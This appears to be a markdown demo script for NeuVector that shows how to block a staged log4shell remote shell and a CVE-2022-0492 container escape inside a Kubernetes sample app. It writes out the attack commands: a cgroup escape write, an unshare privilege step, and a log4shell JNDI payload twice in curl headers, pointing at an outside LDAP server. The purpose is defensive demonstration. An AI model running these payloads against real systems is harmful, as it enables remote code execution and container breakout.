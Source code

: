 ## Fix attack

Problems:

* Sample-app has a log4shell vulnerability which allows a remote shell into the container
* Even though the container is not privileged, we can get SYS_ADMIN capabilities due to a kernel bug, escape the container and get admin access to the cluster

NeuVector scanning tells us this:

* on node CVE-2022-0492
* on container, compliance: running as root, CVE-2021-45046

NeuVector learned a lot of processes, like unshare, mount etc
NeuVector learned a lot of network communication, like communication to external system, including our remote shell

Show security events with suspicious processes on host.

First deny `/usr/bin/socat` on host and put host into protect mode.

Execute, escape command in container again

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

See that socat is blocked.

Next put sample-app in protect mode and delete all learned process rules but the ones necessary for the app to work (ex, pause, dirname, java). Try to do something in remote container shell and see that it's blocked.

```
unshare -UrmC bash
```

Next remove network rules from sample-app to external.

See that the remote shell does not work anymore and the connection was denied in the security events.

Execute

```
curl http://sample-app.default.10.65.0.209.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://18.198.55.208:1389/a}'
```

and see the security event.

Add a log4shell WAF rule to block the log4shell attack.

Execute

```
curl http://sample-app.default.10.65.0.209.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://18.198.55.208:1389/a}'
```

and see the security event.
